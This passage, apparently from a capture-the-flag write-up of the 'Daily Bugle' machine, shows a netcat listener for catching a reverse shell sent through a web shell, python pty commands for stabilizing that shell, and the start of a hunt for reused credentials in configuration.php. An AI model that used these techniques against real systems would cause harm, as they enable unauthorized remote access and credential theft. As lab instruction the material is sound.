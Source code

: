```bash
nc -lvnp 4444
```

Then we can send our reverse shell payload through the
web shell

![revshell](/images/dailybugle/revshell.png)

We can upgrade and stabilize our shell with the following

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# ctrl + z to background the shell
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

This will remove repeating commands, give us tab completion,
and allows us to use ctrl+c!

## Horizontal Escalation
> Are there credentials that are reused?
{: .prompt-tip }

In order to set up the database, there are usually
credentials we can read in configuration or initialization
`php` files

With this in mind let's check `configuration.php`
